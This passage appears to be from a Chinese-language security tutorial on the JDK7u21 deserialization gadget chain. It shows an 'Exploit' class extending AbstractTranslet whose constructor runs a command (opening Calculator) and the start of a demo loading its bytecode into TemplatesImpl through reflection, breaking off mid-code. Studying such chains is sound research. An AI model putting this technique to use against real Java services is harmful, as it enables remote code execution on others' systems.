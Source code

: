 ```java

AbstractTranslet translet = (AbstractTranslet) _class[_transletIndex].newInstance();  // 根据_transletIndex索引位置，对_class中的最后一个AbstractTranslet类进行实例化
```
我们知道，对大部分类进行实例化，都会调用他的构造方法，因此我们只需要构造一个恶意类，在构造方法中写入命令执行之类的代码即可，正如上面代码注释所言，这个恶意类必须继承AbstractTranslet。

了解这些以后，我们就可以尝试构造代码来实现，首先构造恶意代码：
```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;

public class Exploit extends AbstractTranslet {
    public Exploit() throws Exception{
        Runtime.getRuntime().exec("open /Applications/Calculator.app");
    }
    @Override
    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {

    }

    @Override
    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {

    }

    public static void main(String[] args) throws Exception{
        Exploit exploit = new Exploit();
    }
}
```
然后javac编译:
```
javac Exploit.java
```

> 需要注意的是，此时的javac必须是与当前环境相同的jdk版本，由于本文讨论的是JDK7U21，所以当前项目环境的SDK为jdk1.7，这在多jdk版本的PC环境下通常会出现问题，比如你的javac命令是jdk1.8或者jdk11的，而项目环境是jdk1.7，则后续调试环节会报错：`java.lang.UnsupportedClassVersionError: Unsupported major.minor version 52.0`（大致是loadClass环节），不过由于这个需求是一次性的，所以直接去jdk1.7的Home目录下找javac即可，MacOS的Path是：
```
/Library/Java/JavaVirtualMachines/jdk1.7.0_21.jdk/Contents/Home/bin/javac
```
> 用这个javac来编译就不会出错

然后构造测试demo：
```java
import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import com.sun.org.apache.xalan.internal.xsltc.trax.TransformerFactoryImpl;

import java.io.File;
import java.io.FileInputStream;
import java.io.IOException;
import java.lang.reflect.Field;

public class templatesImpl{
    public static void main(String[] args) throws Exception{
        TemplatesImpl tmpl = new TemplatesImpl();

        Field bytecodes = TemplatesImpl.class.getDeclaredField("_bytecodes");
        bytecodes.setAccessible(true);
        byte[][] bytes = new byte[1][];
        bytes[0] = readClassFileToByteArray("Exploit.class");
        bytecodes.set(tmpl, bytes);
```